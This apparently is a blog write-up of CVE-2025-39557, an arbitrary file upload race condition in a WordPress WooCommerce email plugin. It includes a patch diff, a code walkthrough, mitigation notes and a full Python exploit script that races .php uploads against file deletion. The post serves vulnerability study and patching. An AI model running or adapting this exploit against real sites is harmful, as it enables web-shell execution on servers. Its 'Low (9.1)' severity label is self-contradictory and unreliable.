

# CVE-2025-39557 Analysis & POC


<!--more-->

## CVE & Basic Info

An **Arbitrary File Upload** vulnerability in **Ben Ritner - Kadence WP Kadence WooCommerce Email Designer** allows **uploading a web shell to the web server**. This issue affects **Kadence WooCommerce Email Designer** from an **unspecified version up to 1.5.14**.

* **CVE ID**: [CVE-2025-39557](https://www.cve.org/CVERecord?id=CVE-2025-39557)
* **Vulnerability Type**: Arbitrary File Upload
* **Affected Versions**: <= 1.5.14
* **Patched Versions**: 1.5.15
* **CVSS severity**: Low (9.1)
* **Required Privilege**: Administrator
* **Product**: [WordPress Kadence WooCommerce Email Designer Plugin](https://wordpress.org/plugins/kadence-woocommerce-email-designer/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Kadence WooCommerce Email Designer**: **1.5.14** (vulnerable) and **1.5.15** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff tool to compare versions.
* [**WooCommerce Plugin**](https://wordpress.org/plugins/woocommerce/)

## Analysis

### Patch Diff

```php {title="class-kadence-woomail-import-export.php - v1.5.14" hl_lines=[3,4]}
static private function import_woomail( $wp_customize ) {
  ...
  $overrides = array( 'test_form' => false, 'test_type' => false, 'mimes' => array( 'dat' => 'text/plain', 'json' => 'text/plain' ) );
  $file = wp_handle_upload( $_FILES['kadence-woomail-import-file'], $overrides );
  ...
}
```

In the vulnerable version, the `import_woomail()` function calls `wp_handle_upload()` to upload files to WordPress's uploads directory (`wp-content/uploads/<year>/<month>/`).

> [!BUG]
> However, the option `test_type => false` causes WordPress to **skip MIME type checking** against the whitelist.
> This allows an attacker to **upload dangerous files such as a `.php` web shell** to the server.

```php {title="class-kadence-woomail-import-export.php - v1.5.15" hl_lines=[3,4]}
static private function import_woomail( $wp_customize ) {
  ...
  $overrides               = array( 'test_form' => false, 'test_type' => true, 'mimes' => array( 'dat' => 'text/plain', 'json' => 'text/plain' ) );
  $file                    = wp_handle_upload( $_FILES['kadence-woomail-import-file'], $overrides );
  ...
}
```

The patch changes `'test_type' => true`, enabling MIME checks against the whitelist and preventing dangerous uploads like `.php` web shells.

### Vulnerable Code

```php {title="class-kadence-woomail-import-export.php - v1.5.14" hl_lines=[3,19,20,32,33,35,42] data-open=true}
static private function import_woomail( $wp_customize ) {
  // Make sure we have a valid nonce.
  if ( ! wp_verify_nonce( $_REQUEST['kt-woomail-import'], 'kt-woomail-importing' ) ) {
    return;
  }
  // Make sure WordPress upload support is loaded.
  if ( ! function_exists( 'wp_handle_upload' ) ) {
    require_once( ABSPATH . 'wp-admin/includes/file.php' );
  }
  // Load the export/import option class.
  require_once KT_WOOMAIL_PATH . 'includes/class-kadence-woomail-import-option.php';
  // Setup global vars.
  global $wp_customize;
  global $kt_woomail_import_error;

  // Setup internal vars.
  $kt_woomail_import_error = false;
  $template                = 'kadence-woomail-designer';
  $overrides               = array( 'test_form' => false, 'test_type' => false, 'mimes' => array( 'dat' => 'text/plain', 'json' => 'text/plain' ) );
  $file                    = wp_handle_upload( $_FILES['kadence-woomail-import-file'], $overrides );

  // Make sure we have an uploaded file.
  if ( isset( $file['error'] ) ) {
    $kt_woomail_import_error = $file['error'];
    return;
  }
  if ( ! file_exists( $file['file'] ) ) {
    $kt_woomail_import_error = __( 'Error importing settings! Please try again.', 'kadence-woocommerce-email-designer' );
    return;
  }
  // Get the upload data.
  $raw  = file_get_contents( $file['file'] );
  $data = json_decode( $raw, true );
  // Check for support of older export files. Will remove later.
  if ( ( 'array' != gettype( $data ) || ! isset( $data['template'] ) ) && version_compare( phpversion(), '7.0.0' ) >= 0  ) {
    $data = @unserialize( base64_decode( $raw ), array( 'allowed_classes' => false ) );
    if ( 'array' != gettype( $data ) || ! isset( $data['template'] ) ) {
      $data = self::mb_unserialize( $raw );
    }
  }
  // Remove the uploaded file.
  unlink( $file['file'] );
  ...
  exit;
}
```

The `import_woomail()` function handles uploads and imports for the Kadence WooCommerce Email Designer plugin:

1. Verify nonce to ensure request validity (prevent CSRF):

```php
if ( ! wp_verify_nonce( $_REQUEST['kt-woomail-import'], 'kt-woomail-importing' ) ) {
	return;
}
```

2. Perform the upload via `wp_handle_upload()`:

```php
$overrides = array( 'test_form' => false, 'test_type' => false, 'mimes' => array( 'dat' => 'text/plain', 'json' => 'text/plain' ) );
$file = wp_handle_upload( $_FILES['kadence-woomail-import-file'], $overrides );
```

As analyzed above, this implementation accepts `.php` due to disabled MIME checks.

3. Read uploaded file content and attempt to parse as **JSON**:

```php
$raw  = file_get_contents( $file['file'] );
$data = json_decode( $raw, true );
```

4. If not valid JSON → attempt `base64_decode()` then `unserialize()`:

```php
if ( ( 'array' != gettype( $data ) || ! isset( $data['template'] ) ) && version_compare( phpversion(), '7.0.0' ) >= 0  ) {
	$data = @unserialize( base64_decode( $raw ), array( 'allowed_classes' => false ) );
	if ( 'array' != gettype( $data ) || ! isset( $data['template'] ) ) {
		$data = self::mb_unserialize( $raw );
	}
}
```

5. Delete the uploaded file from the server:

```php
unlink( $file['file'] );
```

We need to pay attention to the following:


graph LR;
A[Upload File] --> B[Read File & Decode JSON]
B --> C{IF JSON}
C -->|True| D["unserialize()"]
D --> E["unlink()"]


The file is removed immediately after upload, so it cannot be accessed normally. Leverage the time window between `Upload File` and `unlink()` to call the uploaded file within that period to execute a web shell. This uses a `File Upload` + `Race Condition` technique.

---

```php {title="class-kadence-woomail-import-export.php - v1.5.14" hl_lines=[3,9,10] data-open=true}
static public function import_export_requests( $wp_customize ) {
  // Check if user is allowed to change values.
  if ( ! Kadence_Woomail_Designer::is_admin() ) {
    exit;
  }
  if ( isset( $_REQUEST['kt-woomail-export'] ) ) {
    self::export_woomail( $wp_customize );
  }
  if ( isset( $_REQUEST['kt-woomail-import'] ) && isset( $_FILES['kadence-woomail-import-file'] ) ) {
    self::import_woomail( $wp_customize );
  }

  if ( isset( $_REQUEST['kt-woomail-import-template'] ) ) {
    self::import_woomail_template( $wp_customize );
  }
}
```

`import_woomail()` is called inside `import_export_requests()` if the user is `admin` and `kt-woomail-import` is present in `$_REQUEST` along with an uploaded file in `$_FILES['kadence-woomail-import-file']`.

The `import_export_requests` method is registered as a callback for the action hook:

```php
add_action( 'customize_register', array( $this, 'import_export_requests' ), 999999 );
```

So when using the Customizer (`customize.php`), `import_export_requests` will be executed.

### Flow


graph TD
A["Upload file via HTTP POST (kt-woomail-import + kadence-woomail-import-file)"] --> B["wp_handle_upload($_FILES['kadence-woomail-import-file'], $overrides) called"]
B --> C["File written to /wp-content/uploads/year/month/filename"]
C --> D["file_exists($file['file']) → file_get_contents($file['file'])"]
D --> E["json_decode($raw) — attempt parse as JSON"]
E --> F["If JSON invalid → base64_decode($raw) → unserialize()/mb_unserialize()"]
F --> G["Process/import template data"]
G --> H["unlink($file['file']) — delete uploaded file"]
H --> I["File removed from filesystem"]


## Exploit

### Proof of Concept (PoC)

1. Create a script that runs parallel upload and checks

```py {title="Python Script" hl_lines=[23,25,26,33,38,39,40,41,60,91,92,94,96]}
import requests
from concurrent.futures import ThreadPoolExecutor
from datetime import datetime
import threading

proxies = {
    "http": "127.0.0.1:8080",
    "https": "127.0.0.1:8080"
}

headers = {
    "User-Agent": "curl/8.14.1",
    "Accept": "*/*",
    "Connection": "keep-alive",
    "Cookie": (
        "wordpress_86a9106ae65537651a8e456835b316ab=admin%7C1762274887%7Chr4bin8jsMpo40hHg8Ur3qVNiF2OrE8mhxy9mPjA4UV%7Ca49c2954010c0eed18aa2f49d261d70770dcf11a5cef221c9d43e56ed432f582; "
        "wordpress_test_cookie=WP%20Cookie%20check; "
        "wordpress_logged_in_86a9106ae65537651a8e456835b316ab=admin%7C1762274887%7Chr4bin8jsMpo40hHg8Ur3qVNiF2OrE8mhxy9mPjA4UV%7C514daa3c360a345b63ade229b137259ed3eed64ed9a7d2ac6679bb64774956be; "
        "mailpoet_subscriber=%7B%22subscriber_id%22%3A1%7D"
    )
}

php_payload = '<?php phpinfo(); ?>'

upload_url = "http://localhost/wp-admin/customize.php?kt-woomail-customize=1"
check_url = "http://localhost/wp-content/uploads/<year>/<month>/<filename>.php"

UPLOAD_THREADS = 40
CHECK_THREADS = 40

upload_success_detected = threading.Event()

def upload_worker(_):
    session = requests.Session()
    session.headers.update(headers)
    session.verify = False

    files = {
        'kt-woomail-import': (None, '5afa8d8781'),
        'kadence-woomail-import-file': ('<filename>.php', php_payload, 'application/octet-stream')
    }

    while not upload_success_detected.is_set():
        try:
            response = session.post(
                upload_url,
                files=files,
                timeout=10
            )

            ts = datetime.now().strftime("%H:%M:%S")
            if 200 <= response.status_code < 300:
                print(f"\033[92m[{ts}] [UPLOAD] Sent | 200 OK\033[0m")
            else:
                print(f"\033[93m[{ts}] [UPLOAD] Failed | {response.status_code}\033[0m")

        except Exception as e:
            print(f"\033[91m[{datetime.now().strftime('%H:%M:%S')}] [UPLOAD ERROR] {e}\033[0m")

def check_worker(_):
    session = requests.Session()
    session.proxies.update(proxies)
    session.verify = False

    while not upload_success_detected.is_set():
        try:
            response = session.get(check_url, timeout=8)

            ts = datetime.now().strftime("%H:%M:%S")
            if response.status_code == 200 and len(response.text) > 0:
                print(f"\n\033[101m[{ts}] [RCE DETECTED!] File uploaded & executed!\033[0m")
                upload_success_detected.set()
                break
            else:
                print(f"[{ts}] [CHECK] {response.status_code} | Not found yet...")

        except Exception as e:
            print(f"[{datetime.now().strftime('%H:%M:%S')}] [CHECK ERROR] {e}")

if __name__ == "__main__":
    print("\033[96m" + "="*60)
    print("   WORDPRESS KADENCE WOOMAIL UPLOAD EXPLOIT")
    print("   Upload + Auto Check Parallel Threads")
    print("="*60 + "\033[0m")
    print(f"[*] Upload URL : {upload_url}")
    print(f"[*] Check URL  : {check_url}")
    print(f"[*] Threads    : {UPLOAD_THREADS} (upload) + {CHECK_THREADS} (check)")
    print("[*] Press Ctrl+C to stop\n")

    try:
        with ThreadPoolExecutor(max_workers=UPLOAD_THREADS + CHECK_THREADS) as executor:
            upload_futures = [executor.submit(upload_worker, i) for i in range(UPLOAD_THREADS)]
            
            check_futures = [executor.submit(check_worker, i) for i in range(CHECK_THREADS)]
            
            upload_success_detected.wait()

    except KeyboardInterrupt:
        print("\n\033[93m[!] Stopped by user.\033[0m")
    finally:
        upload_success_detected.set() 
        print("\033[91m[!] All threads terminated.\033[0m")
```

Specifically:

* The script performs concurrent upload and checks; it stops only when the check returns (`status=200`).
* The check function goes through a BurpSuite proxy to observe responses and filter by status code.

2. Add cookies and nonce to the script
3. Open BurpSuite to monitor requests/responses from the script.
4. Run the script

```bash
python3 -m venv venv 
source venv/bin/active

pip install requests
python script.py
```

**Terminal Output**:



**BurpSuite Output**:


## Conclusion

The vulnerability occurs because the plugin skips MIME checking (`test_type => false`) during upload, allowing `.php` files to be uploaded. The file is deleted immediately after processing but exists briefly enough to be exploited via a **race condition**.

## Key Takeaway

* Root cause: missing MIME checks + storing temporary files in a public directory.
* Patched in **1.5.15** (`test_type => true`).
* Mitigation: always validate MIME types, avoid storing executable files in public directories.

## References

[File Upload via Race Condition](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)

[Arbitrary File Upload](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html)

[WordPress Kadence WooCommerce Email Designer Plugin <= 1.5.14 is vulnerable to Arbitrary File Upload](https://patchstack.com/database/wordpress/plugin/kadence-woocommerce-email-designer/vulnerability/wordpress-kadence-woocommerce-email-designer-plugin-1-5-14-arbitrary-file-upload-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-11-08-cve-2025-39557/  

